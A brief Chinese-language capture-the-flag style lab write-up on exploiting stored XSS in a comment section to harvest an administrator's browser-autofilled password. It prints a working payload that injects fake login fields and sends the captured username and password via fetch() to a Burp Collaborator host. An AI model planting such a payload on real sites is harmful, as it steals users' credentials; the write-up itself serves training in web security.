


# 题意

该实验与上一题类似，也是在评论区有存储型XSS漏洞，利用这个漏洞获取管理员的密码并登录。
# 解题思路
整体思路与上一题一致，不同点在与payload的编写：
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

其他步骤与上一题一致，最后获得的密码如下：


# 知识点
##  利用存储型XSS获取密码

如今自动补全密码的功能十分普遍，攻击者可以创建用户名和密码输入界面来利用这个现象，进而获取自动补全的密码并且发送到自己的域中。这个技术避免了上一题提到的获取cookie的大部分问题，但是缺点在于只适用于使用了密码补全功能的用户。